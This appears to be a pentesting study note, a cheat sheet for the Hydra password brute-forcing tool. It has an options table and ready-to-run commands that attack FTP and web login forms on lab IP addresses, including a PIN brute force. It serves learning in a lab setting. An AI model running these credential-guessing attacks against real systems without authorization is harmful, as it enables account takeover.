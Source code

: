 ```yaml
---
{"dg-publish":true,"permalink":"/notes/hydra/"}
---
```


- Crack pass with pass dic
- Supports FTP, POP3, IMAP, SMTP, SSH, and all methods related to HTTP.

| Option                                                       | Description                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------- |
| `hydra -l username -P wordlist.txt server service`           | General command-line                                          |
| `hydra -l mark -P /usr/share/wordlists/rockyou.txt IP ftp`   | E.g. ftp                                                      |
| `hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://IP` | E.g. ftp                                                      |
| `server`                                                     | hostname or IP address of the target server.                  |
| `service`                                                    | service which are trying to <br>launch the dictionary attack. |
| `-l`                                                         | specifies the (SSH) **username** for login                    |
| `-P`                                                         | indicates a **list of passwords**                             |
| `-t 4`                                                       | sets the number of **threads** to spawn                       |
| `-s`                                                         | **port** number                                               |
| `-V`                                                         | Verbose for every attempt                                     |
| `-vV`                                                        | very verbose<br>shows login+pass for each attempt             |
| `-d`                                                         | Debugging                                                     |
| `-L`                                                         | indicates a **list of users**                                 |
| `-p`                                                         | specifies the (SSH) **password** for login                    |
| `-f`                                                         | stops Hydra after finding a working password                  |
| `http-post-form`                                             | the type of the form is POST                                  |
| `<path>`                                                     | the login page URL, for example, `login.php`                  |
| `<invalid_response>`                                         | part of the response when the login fails                     |
## Post Web Form
- Brute force web forms attack.
- You must know which type of request it is making; GET or POST methods are commonly used.
- You can use your browser’s network tab (in developer tools) to see the request types or view the source code.
```shell
sudo hydra <username> <wordlist> 10.10.181.239 http-post-form "<path>:<login_credentials>:invalid_response>"
```

### POST login form:
```shell
hydra -l <username> -P <wordlist> 10.10.181.239 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails
---
![Pasted image 20231206174317.png](/img/user/Hacking%20%C3%89tico%20y%20Pentesting/attachments/Pasted%20image%2020231206174317.png)
```sh
hydra -l '' -P 3digits.txt -f -v 10.10.180.149 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

The command above will try one password after another in the `3digits.txt` file. It specifies the following:

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.180.149` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target